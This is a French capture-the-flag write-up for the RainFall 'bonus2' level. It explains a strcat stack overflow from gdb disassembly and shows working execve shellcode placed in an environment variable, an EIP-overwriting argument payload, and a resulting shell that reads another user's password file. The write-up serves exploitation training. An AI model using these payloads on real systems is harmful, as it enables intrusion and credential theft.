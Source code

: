 En desassemblant le code on voit qu'il y a un strcat faillible car on peux override l'adresse de retour du main
```gdb
   0x0804850a <+134>:	lea    eax,[ebp+0x8]
   0x0804850d <+137>:	mov    DWORD PTR [esp+0x4],eax
   0x08048511 <+141>:	lea    eax,[ebp-0x48]
   0x08048514 <+144>:	mov    DWORD PTR [esp],eax
   0x08048517 <+147>:	call   0x8048370 <strcat@plt>
   0x0804851c <+152>:	lea    eax,[ebp-0x48]
```
Strcat concatene un tableau de char de 72 octet dans lequel il y a Bonjour dans la langue passé en parametre + av[1]

72 octets de msg + 4 de ebp + 4 de eip

Le payload peux maintenant être construis

On exporte le shell avec des nop dans l'environnement.
```bash
bonus2@RainFall:~$ export SC=$(python -c "print('\x90' * (40-21) + '\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80')")
```

On récupere l'adresse de SC dans l'environnement

Oxbffffef0

Et on execute le binaire avec le payload construis

```bash
bonus2@RainFall:~$ export LANG="fi"
bonus2@RainFall:~$ ./bonus2 $(python -c "print('B' * 40)") $(python -c "print('B' * 18 + '\xf0\xfe\xff\xbf')")
Hyvää päivää BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB����
$ whoami
bonus3
$ cat /home/user/bonus4/.pass
...
...
```
On fais passer LANG a "fi" pour pouvoir atteindre le EIP.

L'argument av[1] est copié avec strncpy dans les 40 premier octets du buffer
L'argument av[2] est copié avec strncpy dans e-les 32 octets suivant

19 + 40 + 18 + address de SC pour réecrire EIP